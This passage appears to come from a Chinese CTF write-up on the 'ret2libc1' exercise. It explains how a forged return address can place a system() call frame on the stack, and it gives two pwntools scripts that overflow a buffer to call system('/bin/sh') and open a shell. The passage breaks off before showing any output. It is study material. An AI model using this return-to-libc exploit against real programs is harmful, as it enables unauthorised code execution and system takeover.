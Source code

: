 
像这样`CALL F`会产生一个新的栈帧，原来的EIP被保存到新栈帧的返回地址那里，因此正常情况下新栈帧返回地址指向的汇编指令应该是`CALL F`的下一条。在这个实验中，返回地址是伪造的，我期望的是在main()函数返回之后原地产生system()函数的栈帧，因此和上一个实验中的【从原main返回地址开始：指令地址、参数、下一条指令的地址、参数】不同，这里应该是【从原main返回地址开始：system@plt地址、system返回地址、参数】，区别就是因为`CALL`会有一个额外的压栈，我通过`RET`直接跳转到system()函数之后缺了这一步，所以应该在这里给他补上。

不过我现在并不关心system会返回到哪里，所以就一块给填充上了：

```python
from pwn import *


# ret2libc1
addr_system_plt = 0x08048460
addr_bin_sh = 0x08048720

pwn_obj = process("./ret2libc1")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_system_plt) + 
    b"#" * 4 + 
    p32(addr_bin_sh))
pwn_obj.interactive()
```

我还在网上找到一种更高效的地址搜索方法：

```python
from pwn import *


# ret2libc1
elf = ELF("./ret2libc1")
addr_system_plt = elf.plt["system"]
addr_bin_sh = next(elf.search(b"/bin/sh"))

pwn_obj = process("./ret2libc1")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_system_plt) + 
    b"#" * 4 + 
    p32(addr_bin_sh))
pwn_obj.interactive()
```

两种方法都有效：
